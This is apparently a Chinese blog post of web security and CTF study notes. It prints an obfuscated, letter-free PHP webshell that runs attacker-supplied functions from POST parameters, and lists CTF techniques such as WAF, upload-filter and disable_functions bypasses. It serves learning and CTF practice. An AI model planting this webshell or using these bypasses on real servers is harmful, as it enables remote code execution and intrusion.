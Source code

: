 ```yaml
---
title: Web 安全笔记
date: 2018-1-26 14:10:17
tags:  笔记
abstract: 我听过的会忘掉，我看过的能记住，我做过的才真正明白。
---
```


渗透测试实际上就是信息收集，CTF 更是如此，所以一定要沉得住气，

慢慢收集，更不能思维定势，做出一道题最大的成就感在于收获到了新知识、新姿势。

打开脑洞，胆大心细。

## 每天学点新东西

```shell
# 查看本机开放端口
netstat -tln
```



极限 `webshell`

```php
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```



**CTF 出题套路**

一、爆破，包括包括md5、爆破随机数、验证码识别等

二、绕WAF，包括花式绕Mysql、绕文件读取关键词检测之类拦截

三、花式玩弄几个PHP特性，包括弱类型，strpos和===，反序列化+destruct、\0截断、iconv截断、

四、密码题，包括hash长度扩展、异或、移位加密各种变形、32位随机数过小

五、各种找源码技巧，包括git、svn、xxx.php.swp、*www*.(zip|tar.gz|rar|7z)、xxx.php.bak、

六、文件上传，包括花式文件后缀 .php345 .inc .phtml .phpt .phps、各种文件内容检测<?php <? <% \<script language=php>、花式解析漏洞、

七、Mysql类型差异，包括和PHP弱类型类似的特性,0x、0b、1e之类，varchar和integer相互转换

八、open_basedir、disable_functions花式绕过技巧，包括dl、mail、imagick、bash漏洞、DirectoryIterator及各种二进制选手插足的方法

九、条件竞争，包括竞争删除前生成shell、竞争数据库无锁多扣钱

十、社工，包括花式查社工库、微博、QQ签名、whois
